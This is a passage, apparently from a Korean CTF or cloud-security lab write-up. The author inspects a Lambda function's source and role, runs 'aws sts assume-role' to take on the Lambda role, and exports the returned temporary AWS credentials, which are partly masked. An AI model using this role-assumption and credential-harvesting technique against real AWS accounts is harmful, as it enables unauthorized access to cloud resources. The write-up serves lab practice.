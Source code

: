 zip 파일을 압축 해제하면 `yakbase.py`{: .filepath} 파일이 나온다  

DB에서 가져온 비밀번호로 내부 DB에서 정보를 조회하는 함수다  
아마 저 안에 플래그가 있지 않을까..  
<br>

---

다른 명령어들은 자꾸 권한 문제로 실패해서 Lambda 함수의 Role을 한번 보자..  

`"Role": "arn:aws:iam::480266000000:role/`
<br>

---

```json
{
    "Credentials": {
        "AccessKeyId": "ASIAXCXXXXXXX6CFGYE",
        "SecretAccessKey": "IgvXXXXXXXXXXXXxjiE/IWQuahyXXXXZy3yf08V2",
        "SessionToken": "IQoXXXXXXXXuX2VjEPH//////////wEaCXVzLWVhc3QtMSJHMEUCIE[Filtered]5Qg1MCpt1dtlJa4T83yj++x9OHo5TAiEA77VJWxjCqwcY0MMqd2gLdSxB+tqRrtWKl0r9fqVv+I8qmAIIGRAAGgw0ODcyNjYyNTQxNjMiDFkbAG6I8wFqYnQsPCr1AZfG[Filtered]3gAFLJG8pkKqkKCMONI5E1HopC1vbVyW455BpWl09i3lTUgk7nQWUa/AAY5CAg2DAcYHCv6UnELc3fOaVGxwXsC+DIAQAYN6yz6/53/tLFdZ/fulb9ZIV5ql+N5Nbrd+Vf7jVY4QJii5KuQhx1lXjZjP[Filtered]qWSNmQnHen/U7Vc5+t/YoBCGZWPfazkTzALp1srIGsn/fJ/okTNLMa/RklvvjprPXY[Filtered]HBg5PZuhmr3Gyd7Pjq2QCdB22v9NUKTohU9b0WG9tYKlvT53vfMJSThMQGOp0BOtIpvkaOn1bg4TyAibnD3P+nrmdSNbfJMiUJS+rDbv2o1Yuj+SZuBDQv4oLLIKlDRU25cHQhC63b1TFgV0W1kuEjl[Filtered]heHTe6LSOw55aBT34DwlenEQlJYEH0OF769wiIOl8upCa7XvKBK8a6HJc1pmiVYkvNLEsed5kURP/+6HSxhDJPiIgsWq5u693xm/uTHU/nJA==",
        "Expiration": "2025-07-23T17:11:00+00:00"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "AROAXCXXXXXXXXXXXYQRI:testSession",
        "Arn": "arn:aws:sts::480266000000:assumed-role/lambda_role/testSession"
    }
}
```

```bash
aws sts assume-role --role-arn arn:aws:iam::480266000000:role/lambda_role --role-session-name testSession
```

이제 Lambda 함수의 권한을 얻을 수 있게 됐다  
<br>

---

```bash
export AWS_ACCESS_KEY_ID="ASIAXCXXXXXXX6CFGYE"
export AWS_SECRET_ACCESS_KEY="IgvXXXXXXXXXXXXxjiE/IWQuahyXXXXZy3yf08V2"
export AWS_SESSION_TOKEN="IQoXXXXXXXXuX2VjEPH//////////wEaCXVzLWVhc3QtMSJHMEUCIE[Filtered]5Qg1MCpt1dtlJa4T83yj++x9OHo5TAiEA77VJWxjCqwcY0MMqd2gLdSxB+tqRrtWKl0r9fqVv+I8qmAIIGRAAGgw0ODcyNjYyNTQxNjMiDFkbAG6I8wFqYnQsPCr1AZfG[Filtered]3gAFLJG8pkKqkKCMONI5E1HopC1vbVyW455BpWl09i3lTUgk7nQWUa/AAY5CAg2DAcYHCv6UnELc3fOaVGxwXsC+DIAQAYN6yz6/53/tLFdZ/fulb9ZIV5ql+N5Nbrd+Vf7jVY4QJii5KuQhx1lXjZjP[Filtered]qWSNmQnHen/U7Vc5+t/YoBCGZWPfazkTzALp1srIGsn/fJ/okTNLMa/RklvvjprPXY[Filtered]HBg5PZuhmr3Gyd7Pjq2QCdB22v9NUKTohU9b0WG9tYKlvT53vfMJSThMQGOp0BOtIpvkaOn1bg4TyAibnD3P+nrmdSNbfJMiUJS+rDbv2o1Yuj+SZuBDQv4oLLIKlDRU25cHQhC63b1TFgV0W1kuEjl[Filtered]heHTe6LSOw55aBT34DwlenEQlJYEH0OF769wiIOl8upCa7XvKBK8a6HJc1pmiVYkvNLEsed5kURP/+6HSxhDJPiIgsWq5u693xm/uTHU/nJA=="
```
